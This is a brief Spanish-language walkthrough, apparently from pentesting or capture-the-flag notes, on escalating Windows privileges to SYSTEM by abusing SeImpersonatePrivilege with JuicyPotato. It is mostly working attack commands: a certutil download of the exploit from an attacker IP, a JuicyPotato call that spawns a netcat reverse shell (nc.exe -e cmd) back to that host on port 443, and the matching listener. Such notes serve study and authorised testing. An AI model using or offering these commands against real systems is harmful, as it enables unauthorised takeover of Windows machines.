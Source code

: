 Cuando tenemos el privilegio 'SeImpersonatePrivilege', podemos realizar un ataque a este privilegio que nos permitirá escalar privilegios a usuario 'nt authority/system'.

Descargamos el fichero de: 
`https://github.com/ohpe/juicy-potato/releases`
Subimos este fichero al servidor vulnerable en el que hemos podido entrar, en 'C:\Windows\TEmp'. Además habrá que subir tambien 'nc.exe':
`certutil.exe -f -urlcache -split http://10.10.16.9/JuicyPotato.exe JuicyPotato.exe`
Ejecutamos el binario:
`JuicyPotato.exe -c -p C:\Windows\System32\cmd.exe -a "C:\Windows\Temp\nc.exe -e cmd 10.10.16.9 443" -l 1222`
En local debemos tener un puerto en escucha:
`rlwrap nc -nlvp 443`